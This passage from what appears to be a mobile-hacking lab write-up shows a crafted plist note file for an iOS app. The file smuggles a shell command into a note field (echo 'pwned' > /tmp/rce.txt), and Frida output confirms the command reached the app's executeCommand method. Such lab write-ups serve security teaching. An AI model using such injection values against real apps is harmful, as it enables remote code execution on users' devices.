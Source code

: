 ```xml
                        <dict>
                                <key>CF$UID</key>
                                <integer>3</integer>
                        </dict>
                        <key>$class</key>
                        <dict>
                                <key>CF$UID</key>
                                <integer>7</integer>
                        </dict>
                </dict>
                <string>Test</string>
                <string>hello</string>
                <string>Thu, 25 Sep 2025 13:17:24 GMT</string>
                <string>any'; echo \"pwned\" > /tmp/rce.txt # </string>

                <dict>
                        <key>$classname</key>
                        <string>SerialNotes.Note</string>
                        <key>$classes</key>
                        <array>
                                <string>SerialNotes.Note</string>
                                <string>NSObject</string>
                        </array>
                </dict>
                <dict>
                        <key>$classname</key>
                        <string>NSArray</string>
                        <key>$classes</key>
                        <array>
                                <string>NSArray</string>
                                <string>NSObject</string>
                        </array>
                </dict>
        </array>
</dict>
</plist>
```

<br />

Transfer this file to the iPhone and launch the app with Frida. After clicking ‘Open File’, the output shows that our command was successfully passed as a parameter to the `_executeCommand` method

 `uname -a | grep -o 'test' ; echo "pwned" > /tmp/rce.txt #' | head -n1`

```
Spawning `com.mobilehackinglab.SerialNotes2.W46SY5ZJ6Z`...              
[*] module base: 0x100290000 target addr: 0x10029414c
[*] DebugSymbol: executeCommand  (0x10029414c)
[*] Exact symbol: executeCommand @ 0x10029414c
[*] Attached to 0x10029414c
Spawned `com.mobilehackinglab.SerialNotes2.W46SY5ZJ6Z`. Resuming main thread!
[iOS Device::com.mobilehackinglab.SerialNotes2.W46SY5ZJ6Z ]-> [*] onEnter: target = 0x10029414c
[*] arg0 as C-string: uname -a  | grep -o 'test' ; echo "pwned" > /tmp/rce.txt #' | head -n1
```

